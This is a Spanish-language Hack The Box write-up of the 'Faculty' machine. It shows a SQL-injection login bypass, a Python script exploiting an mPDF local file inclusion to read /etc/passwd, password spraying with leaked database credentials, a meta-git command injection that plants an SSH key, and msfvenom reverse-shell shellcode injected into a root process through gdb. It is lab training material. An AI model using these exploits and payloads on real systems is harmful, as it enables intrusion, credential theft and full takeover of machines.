


+++
author = "Andrés Del Cerro"
title = "Hack The Box: Faculty Writeup | Medium"
date = "2024-08-12"
description = ""
tags = [
    "HackTheBox",
    "Faculty",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "SQL Injection",
    "Local File Inclusion",
    "Python Scripting",
    "Scripting",
    "Information Leakage",
    "Password Spraying",
    "Command Injection",
    "Abusing SYS_PTRACE"
]

+++

# Hack The Box: Faculty Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Faculty"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
$ rustscan -a 10.129.227.208 --ulimit 5000 -g
10.129.227.208 -> [22,80]
```

```shell
$ nmap -p22,80 -sCV 10.129.227.208 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 12:28 CEST
Nmap scan report for 10.129.227.208
Host is up (0.036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://faculty.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.81 seconds
```

# UDP Enumeration
```shell
$ sudo nmap --top-ports 1500 10.129.227.208 -sU --min-rate 5000 -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 12:29 CEST
Nmap scan report for 10.129.227.208
Host is up (0.036s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
965/udp   closed unknown
1046/udp  closed wfremotertm
10080/udp closed amanda
30932/udp closed unknown
49168/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```

Detectamos un dominio,  `faculty.htb`, lo añadimos al `/etc/hosts` . Además solo vemos el puerto 80/TCP como punto de entrada.

# HTTP Enumeration
Vemos que se está utilizando una especie de CMS por detrás.


Fuzzeando el sitio web encontramos un panel de inicio de sesión administrativo en `/admin/login.php`


Probando una inyección SQL básica para burlar este panel de autenticación funciona.


# Local File Inclusion
En `http://faculty.htb/admin/index.php?page=faculty`
Detectamos varios usuarios, vamos a crear una lista de usuarios con estos.


Además vemos una función para generar reportes en PDF. Esto lo hemos visto en varias máquinas donde quizás, la librería/herramienta utilizándose por detrás para generar estos PDF's tenga alguna vulnerabilidad. Así que vamos a revisar los metadatos


Le damos click y se nos redirecciona a una URL `http://faculty.htb/mpdf/tmp/OKbUpf04MKEJugxPYIiF75kwHz.pdf`

```shell
$ exiftool pdf.pdf 
ExifTool Version Number         : 12.57
File Name                       : pdf.pdf
Directory                       : .
File Size                       : 1781 bytes
File Modification Date/Time     : 2024:08:12 10:42:56+02:00
File Access Date/Time           : 2024:08:12 12:42:31+02:00
File Inode Change Date/Time     : 2024:08:12 12:42:36+02:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Page Layout                     : OneColumn
Producer                        : mPDF 6.0
Create Date                     : 2024:08:12 09:42:56+01:00
Modify Date                     : 2024:08:12 09:42:56+01:00
```
En la columna `Producer` vemos `mPDF 6.0`

Y vemos que existe un LFI asociado a esta herramienta, y que quizás sea vulnerable.


Revisando el exploit, debemos inyectar un payload el cual en la etiqueta `annotation` se introduce el nombre del archivo que queremos incluir a la hora de generar el PDF, pero nos preguntamos, ¿Dónde incluimos este payload?

Con `burpsuite` podemos interceptar las peticiones para hacernos una idea de como funciona por detrás. A la hora de generar el PDF, primero se realiza una petición POST a `/admin/download.php` con una data.


Podemos hacer un `base64 -d` a esta data y vemos un "churro" de información URL encodeada dos veces. Con `CyberChef` podemos decodificar esta información para verla mejor.

Y lo que se tramita es la data en HTML para generar el PDF. Así que podríamos probar a inyectar el payload para el LFI aquí.


Con [este PoC](https://www.exploit-db.com/exploits/50995) generamos el payload.


Ahora lo reemplazamos y me el nombre del archivo PDF generado.


Lo consultamos y viene un archivo adjunto, lo descargamos...


¡Y tenemos LFI!
```shell
$ cat /home/pointedsec/Downloads/passwd  | tail -n 10
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

## Automating the Local File Inclusion
Como el LFI es un poco tedioso, vamos a scriptearlo con Python.

Mientras estaba scripteando el LFI, me dí cuenta de que no se necesita una cookie de sesión como administrador para generar el PDF. Esto aumentaría la criticidad de la vulnerabilidad ya que podríamos conseguir LFI sin estar autenticados.

Este es el script
```python
#!/usr/bin/python3
import requests
from urllib.parse import quote
from base64 import b64encode
import PyPDF2
from PyPDF2 import PdfReader
import signal
import os

URL = "http://faculty.htb/admin/download.php"
PDF_URL = "http://faculty.htb/mpdf/tmp/<FILENAME>"

def def_handler(x,y):
    print("[!] Saliendo")
    os.system("rm temp.pdf")
    exit(1)

signal.signal(signal.SIGINT,def_handler)

def extract_attachment_from_pdf(pdf_file):
    with open(pdf_file, "rb") as f:
        reader = PdfReader(f)

        for page_num, page in enumerate(reader.pages):
            if '/Annots' in page:
                annotations = page['/Annots']
                for annot in annotations:
                    annot_obj = annot.get_object()
                    if '/Subtype' in annot_obj and annot_obj['/Subtype'] == '/FileAttachment':
                        file_spec = annot_obj['/FS']
                        embedded_file = file_spec['/EF']['/F']
                        file_data = embedded_file.get_data()
                        file_name = file_spec['/F']
                        
                        # Mostramos el contenido
                        print(file_data.decode('utf-8'))

def payload_gen(fname):
    payload = f'<annotation file="{fname}" content="{fname}" icon="Graph" title="Attached File: {fname}" pos-x="195" />'
    encoded_payload = quote(payload)
    base64enc = b64encode(encoded_payload.encode())
    return base64enc

def do_request(file):
    headers = {
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
    }
    data = {
        "pdf": payload_gen(file)
    }
    r = requests.post(URL, headers=headers, data=data)
    return r.text.strip()

def lfi():
    file = input("Archivo: ")
    url = PDF_URL.replace("<FILENAME>", do_request(file))
    r = requests.get(url)
    
    # Almacenamos el PDF temporalmente
    with open("temp.pdf", "wb") as f:
        f.write(r.content)

    extract_attachment_from_pdf("temp.pdf")
    

if __name__ == "__main__":
    while True:
        lfi()
```

Funcionamiento...
```shell
$ python3 lfi.py
Archivo: /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
 
Vamos a añadir a los usuarios `gbyolo` y `developer`

# Foothold
Supongo que existirá una base de datos por detrás, así que mi meta es conseguir estas credenciales para ver si se están reutilizando con algún usuario.

Vamos a cargar el archivo `index.php` que corresponde a `/admin/index.php`
```php
<!DOCTYPE html>
<html lang="en">
	
<?php session_start(); ?>
<head>
  <meta charset="utf-8">
  <meta content="width=device-width, initial-scale=1.0" name="viewport">

  <title>School Faculty Scheduling System</title>
 	

<?php
  if(!isset($_SESSION['login_id']))
    header('location:login.php');
 include('./header.php'); 
 // include('./auth.php'); 
 ?>

</head>
<style>
	body{
        background: #80808045;
  }
  .modal-dialog.large {
    width: 80% !important;
    max-width: unset;
  }
  .modal-dialog.mid-large {
    width: 50% !important;
    max-width: unset;
  }
  #viewer_modal .btn-close {
    position: absolute;
    z-index: 999999;
    /*right: -4.5em;*/
    background: unset;
    color: white;
    border: unset;
    font-size: 27px;
    top: 0;
}
#viewer_modal .modal-dialog {
        width: 80%;
    max-width: unset;
    height: calc(90%);
    max-height: unset;
}
  #viewer_modal .modal-content {
       background: black;
    border: unset;
    height: calc(100%);
    display: flex;
    align-items: center;
    justify-content: center;
  }
  #viewer_modal img,#viewer_modal video{
    max-height: calc(100%);
    max-width: calc(100%);
  }

</style>

<body>
	<?php include 'topbar.php' ?>
	<?php include 'navbar.php' ?>
  <div class="toast" id="alert_toast" role="alert" aria-live="assertive" aria-atomic="true">
    <div class="toast-body text-white">
    </div>
  </div>
  <main id="view-panel" >
      <?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; 
            $valid_pages = array("home", "courses", "subjects", "faculty", "schedule", "users");
            $page = in_array($page, $valid_pages) ? $page : 'home'; ?>
        <?php include $page.'.php' ?>
  

  </main>

  <div id="preloader"></div>
  <a href="#" class="back-to-top"><i class="icofont-simple-up"></i></a>


  <div class="modal fade" id="uni_modal" role='dialog'>
    <div class="modal-dialog modal-md" role="document">
      <div class="modal-content">
        <div class="modal-header">
        <h5 class="modal-title"></h5>
      </div>
      <div class="modal-body">
      </div>
      <div class="modal-footer">
        <button type="button" class="btn btn-primary" id='submit' onclick="$('#uni_modal form').submit()">Save</button>
        <button type="button" class="btn btn-secondary" data-dismiss="modal">Cancel</button>
      </div>
      </div>
    </div>
  </div>
  <div class="modal fade" id="confirm_modal" role='dialog'>
    <div class="modal-dialog modal-md" role="document">
      <div class="modal-content">
        <div class="modal-header">
        <h5 class="modal-title">Confirmation</h5>
      </div>
      <div class="modal-body">
        <div id="delete_content"></div>
      </div>
      <div class="modal-footer">
        <button type="button" class="btn btn-primary" id='confirm' onclick="">Continue</button>
        <button type="button" class="btn btn-secondary" data-dismiss="modal">Close</button>
      </div>
      </div>
    </div>
  </div>
  <div class="modal fade" id="viewer_modal" role='dialog'>
    <div class="modal-dialog modal-md" role="document">
      <div class="modal-content">
              <button type="button" class="btn-close" data-dismiss="modal"><span class="fa fa-times"></span></button>
              
      </div>
    </div>
  </div>
</body>
<script>
	 window.start_load = function(){
    $('body').prepend('<di id="preloader2"></di>')
  }
  window.end_load = function(){
    $('#preloader2').fadeOut('fast', function() {
        $(this).remove();
      })
  }
 window.viewer_modal = function($src = ''){
    start_load()
    var t = $src.split('.')
    t = t[1]
    if(t =='mp4'){
      var view = $("<video src='"+$src+"' controls autoplay></video>")
    }else{
      var view = $("")
    }
    $('#viewer_modal .modal-content video,#viewer_modal .modal-content img').remove()
    $('#viewer_modal .modal-content').append(view)
    $('#viewer_modal').modal({
            show:true,
            backdrop:'static',
            keyboard:false,
            focus:true
          })
          end_load()  

}
  window.uni_modal = function($title = '' , $url='',$size=""){
    start_load()
    $.ajax({
        url:$url,
        error:err=>{
            console.log()
            alert("An error occured")
        },
        success:function(resp){
            if(resp){
                $('#uni_modal .modal-title').html($title)
                $('#uni_modal .modal-body').html(resp)
                if($size != ''){
                    $('#uni_modal .modal-dialog').addClass($size)
                }else{
                    $('#uni_modal .modal-dialog').removeAttr("class").addClass("modal-dialog modal-md")
                }
                $('#uni_modal').modal({
                  show:true,
                  backdrop:'static',
                  keyboard:false,
                  focus:true
                })
                end_load()
            }
        }
    })
}
window._conf = function($msg='',$func='',$params = []){
     $('#confirm_modal #confirm').attr('onclick',$func+"("+$params.join(',')+")")
     $('#confirm_modal .modal-body').html($msg)
     $('#confirm_modal').modal('show')
  }
   window.alert_toast= function($msg = 'TEST',$bg = 'success'){
      $('#alert_toast').removeClass('bg-success')
      $('#alert_toast').removeClass('bg-danger')
      $('#alert_toast').removeClass('bg-info')
      $('#alert_toast').removeClass('bg-warning')

    if($bg == 'success')
      $('#alert_toast').addClass('bg-success')
    if($bg == 'danger')
      $('#alert_toast').addClass('bg-danger')
    if($bg == 'info')
      $('#alert_toast').addClass('bg-info')
    if($bg == 'warning')
      $('#alert_toast').addClass('bg-warning')
    $('#alert_toast .toast-body').html($msg)
    $('#alert_toast').toast({delay:3000}).toast('show');
  }
  $(document).ready(function(){
    $('#preloader').fadeOut('fast', function() {
        $(this).remove();
      })
  })
  $('.datetimepicker').datetimepicker({
      format:'Y/m/d H:i',
      startDate: '+3d'
  })
  $('.select2').select2({
    placeholder:"Please select here",
    width: "100%"
  })
</script>	
</html>
```

De este archivo podemos comprobar el archivo `topbar.php`

Podemos saltar al archivo `manage_user.php`


Y en este archivo vemos que se incluye un archivo `db_connect.php` que probablemente tenga credenciales de base de datos.

```php
include('db_connect.php');
session_start();
if(isset($_GET['id'])){
$user = $conn->query("SELECT * FROM users where id =".mysql_real_escape_string($_GET['id']));
```

`db_connect.php`
```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

Y con `hydra` podemos hacer password spraying a todos los usuarios..
```shell
$ hydra -L users.txt -p 'Co.met06aci.dly53ro.per' 10.129.227.208 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-12 13:25:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://10.129.227.208:22/
[22][ssh] host: 10.129.227.208   login: gbyolo   password: Co.met06aci.dly53ro.per
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-12 13:25:20
```

Y podemos acceder por SSH como el usuario `gbyolo`
```shell
$ sshpass -p 'Co.met06aci.dly53ro.per' ssh gbyolo@10.129.227.208
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 12 11:26:43 CEST 2024

  System load:           0.03
  Usage of /:            75.2% of 4.67GB
  Memory usage:          36%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.129.227.208
  IPv6 address for eth0: dead:beef::250:56ff:fe94:8329


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


You have mail.
gbyolo@faculty:~$ id
uid=1000(gbyolo) gid=1000(gbyolo) groups=1000(gbyolo)
```

La flag de usuario no está en el directorio personal de trabajo de `gbyolo` así que supongo que deberemos migrar al usuario `developer`

# User Pivoting
Si revisamos los mails de este usuario, encontramos un mail de `developer` diciendo que tenemos acceso para gestionar los repositorios git del grupo de la facultad

```shell
gbyolo@faculty:/home$ mail
"/var/mail/gbyolo": 1 message 1 unread
>U   1 developer@faculty. Tue Nov 10 15:03  16/623   Faculty group
? 
Return-Path: <developer@faculty.htb>
X-Original-To: gbyolo@faculty.htb
Delivered-To: gbyolo@faculty.htb
Received: by faculty.htb (Postfix, from userid 1001)
	id 0399E26125A; Tue, 10 Nov 2020 15:03:02 +0100 (CET)
Subject: Faculty group
To: <gbyolo@faculty.htb>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20201110140302.0399E26125A@faculty.htb>
Date: Tue, 10 Nov 2020 15:03:02 +0100 (CET)
From: developer@faculty.htb
X-IMAPbase: 1605016995 2
Status: O
X-UID: 1

Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb
```

Con `sudo -l` podemos ver que tenemos permisos para ejecutar como el usuario `developer` el binario `/usr/local/bin/meta-git`

```shell
gbyolo@faculty:/home$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

Y podemos ver que es un enlace simbólico a `../lib/node_modules/meta-git/bin/meta-git`
```shell
/usr/local/bin/meta-git: symbolic link to ../lib/node_modules/meta-git/bin/meta-git
```

## Command Injection
Investigando encontramos que hay una forma de ejecutar comandos utilizando este módulo de node.
https://hackerone.com/reports/728040


Podemos ver que efectivamente, podemos inyectar un comando.
```shell
gbyolo@faculty:/tmp$ sudo -u developer /usr/local/bin/meta-git clone 'test||id'
meta git cloning into 'test||id' at test||id

test||id:
fatal: repository 'test' does not exist
id: ‘test’: no such user
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
...
```

Ahora, podemos copiar nuestra clave pública al `/home/developer/.ssh/authorized_keys` para poder acceder por SSH como este usuario.

```shell
gbyolo@faculty:/tmp$ sudo -u developer /usr/local/bin/meta-git clone 'test||echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCs/aNkke9LIHvwrIqFLiLavlSa5gVzvG6EibfhsRDbRY0DLzVMaWw2TmVJ/sjcWBg7DqGFJaJ70cqh7rCX9WYQnUTQUoo2yQ4yRG6UxDOEzD6Yt2JbxEZdsZqX7S1NY33zv9vt......." > /home/developer/.ssh/authorized_keys'
```

Y ya hemos migrado de usuario.
```shell
$ ssh developer@10.129.227.208
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 12 11:39:29 CEST 2024

  System load:           0.01
  Usage of /:            75.4% of 4.67GB
  Memory usage:          39%
  Swap usage:            0%
  Processes:             230
  Users logged in:       1
  IPv4 address for eth0: 10.129.227.208
  IPv6 address for eth0: dead:beef::250:56ff:fe94:8329


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


developer@faculty:~$ id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
```

Y podemos leer la flag
```shell
developer@faculty:~$ cat user.txt 
d2dcd829adb758f...
```

# Privilege Escalation
Podemos descubrir que tenemos permisos de grupo para ejecutar `gdb`

```shell
developer@faculty:~$ find / -type f -group debug 2>/dev/null
/usr/bin/gdb
developer@faculty:~$ ls -la /usr/bin/gdb
-rwxr-x--- 1 root debug 8440200 Dec  8  2021 /usr/bin/gdb
```

Pero no tenemos permiso SUID en el binario.

Pero listando capabilities...
```shell
developer@faculty:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/gdb = cap_sys_ptrace+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
```

## Abusing SYS_PTRACE

La capacidad `CAP_SYS_PTRACE` en Linux es una capacidad del kernel que otorga permisos especiales relacionados con la depuración y la inspección de procesos. Aquí te explico qué te permite hacer:

### 1. **Depuración de Procesos**

- Permite que un proceso trace o depure otros procesos. Esto incluye el uso de herramientas como `gdb`, `strace`, o `ptrace`, que son fundamentales para depurar programas o monitorear su ejecución.
- Normalmente, un proceso sólo puede depurar (trazar) a otro proceso si es hijo suyo o si ambos procesos tienen el mismo ID de usuario efectivo. Con `CAP_SYS_PTRACE`, este requisito se relaja, permitiendo que un proceso con esta capacidad pueda depurar cualquier otro proceso en el sistema, independientemente del propietario.

### 2. **Acceso a la Memoria y Estado de Otros Procesos**

- Con `CAP_SYS_PTRACE`, un proceso puede acceder y modificar la memoria de otros procesos, lo cual es esencial para herramientas de inyección de código o para manipular el estado de ejecución de otro proceso.
- También permite inspeccionar o alterar registros y otros estados internos de un proceso.

### 3. **Acciones Avanzadas de Depuración**

- La capacidad permite otras acciones avanzadas relacionadas con la depuración, como la manipulación de breakpoints y la captura de señales antes de que lleguen al proceso depurado.

### 4. **Saltarse Restricciones de Seguridad**

- `CAP_SYS_PTRACE` también permite que un proceso pase por alto ciertas restricciones de seguridad. Por ejemplo, podría leer datos de procesos que de otro modo no estarían accesibles debido a las políticas de control de acceso.

### **Riesgos de Seguridad**

- **Elevado potencial de abuso:** Debido a que permite acceso completo a otros procesos, esta capacidad representa un riesgo de seguridad significativo si se concede a un proceso no confiable, ya que podría ser usada para robar datos, modificar el comportamiento de aplicaciones, o incluso para escalar privilegios en el sistema.
- **Uso limitado a procesos de confianza:** Por estas razones, `CAP_SYS_PTRACE` generalmente se limita a procesos confiables, como depuradores, o administradores de sistemas que necesitan realizar tareas específicas de diagnóstico.

En resumen, que aprovechándonos de esta capability podemos escalar privilegios ya que se nos permite adjuntar `gdb` a un proceso que esté ejecutando `root` y acto seguido modificar la memoria para conseguir ejecutar un comando a nivel de sistema.

Hay un [artículo en HackTricks](https://book.hacktricks.xyz/v/es/linux-hardening/privilege-escalation/linux-capabilities) que justo contempla este caso.

Creamos nuestro shellcode para mandarnos una reverse shell.

```shell
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f py -o revshell.py
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of py file: 384 bytes
Saved as: revshell.py
```

Utilizamos el script que se nos adjunta en HackTricks y simplemente modificamos el shellcode.

```shell
$ python3 revshell.py 
set {long}($rip+0) = 0x296a909090909090
set {long}($rip+8) = 0x5e016a5f026a9958
set {long}($rip+16) = 0x0002b9489748050f
set {long}($rip+24) = 0x48510d0e0a0abb01
set {long}($rip+32) = 0x582a6a5a106ae689
set {long}($rip+40) = 0xceff485e036a050f
set {long}($rip+48) = 0x6af675050f58216a
set {long}($rip+56) = 0x69622fbb4899583b
set {long}($rip+64) = 0x8948530068732f6e
set {long}($rip+72) = 0x050fe689485752e7
```

Ahora con `ps aux | grep root` podemos buscar un proceso que sea de `root`

En mi caso elegiré el PID 1549 que corresponde a postfix.

```shell
developer@faculty:~$ gdb -p 1549
```

Ahora copiamos y pegamos las líneas generadas anteriormente.


Nos ponemos en escucha con `pwncat-cs` por el puerto 443.


Y si continuamos el flujo del programa..
```shell
(gdb) c
```

Conseguimos la reverse shell como el usuario `root`.


Podemos leer la flag de `root`

```shell
(remote) root@faculty:/var/spool/postfix# cat /root/root.txt
bdd86839ae249a272...
```

¡Y ya estaría!

Happy Hacking! 🚀